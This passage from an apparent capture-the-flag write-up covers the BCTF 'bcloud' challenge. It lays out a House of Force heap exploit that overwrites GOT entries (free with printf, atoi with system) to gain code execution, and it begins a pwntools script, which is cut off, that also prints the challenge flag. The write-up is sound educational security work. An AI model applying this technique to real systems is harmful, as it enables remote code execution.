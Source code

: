 The _deleteNote()_ function uses _free(notes[index])_ and zeros the lengths[index] element only if the notes[index] contain an element.

## Plan

So far we have a leak of a ptr on the heap. We have an overflow to control the wilderness's size and we have a way to allocate huge chunks. You might be thinking, "Cool, we are just going to overwrite the GOT and we are done.". Yes, but let's not forget that ASLR is enabled and we only have an address of the heap.

So to exploit this,

1. I'm going to use House of Force to allocate a heap chunk that reaches the notes[] array on the .bss.
2. Allocate another chunk that stretches from the beginning of the lengths[] array at 0x804b0a0 to the end of the notes[] array @ 0x804b120 on the .BSS. This way we can control everything in those 2 arrays (and something in between that we don't care about).
3. Once we get control of the notes[] and lengths[] we can simply use _editNote()_ to write to the addresses we fill notes[] array with.

4. We do get a lot of writes what/where this way, but we still haven't leaked a libc address. To do that I'm going to overwrite the _free@got_ with _printf@got_, this way we can use the _deleteNote()_ function using printf with controlled argument and leak whatever/whereever. So, 4. Replace _free@got_ with _printf@got_.

5. Leak the _atoi@got_.
6. Replace _atoi_ with _system_.

One function we haven't looked at is the _getChoice()_ function. This function is used pretty much everywhere, including the main menu for the switch/case statement.

{% highlight C %}
int getChoice() {
 
    take_input(buffer, 0x10, 0xa);
    eax = atoi(buffer);
 
    return eax;
}
{% endhighlight %}

As you can see, _atoi()_ here is pretty handy for exchanging with _system()_.

## Final script

{% highlight python %}
#!/usr/bin/env python

# @uaf.io
# flag: BCTF{3asy_h0uSe_oooof_f0rce}

from pwn import *
import sys, struct, time

r = remote('104.199.132.199', 1970)
#r = process(['./bcloud.9a3bd1d30276b501a51ac8931b3e43c4'])
#print util.proc.pidof(r)
#sys.stdin.read(1)

# Send name and leak the heap buffer
r.send("A" * 0x3c + "ZZZZ")
garbage = r.recvuntil("ZZZZ")
leak = u32(r.recv(4))
garbage = r.recv()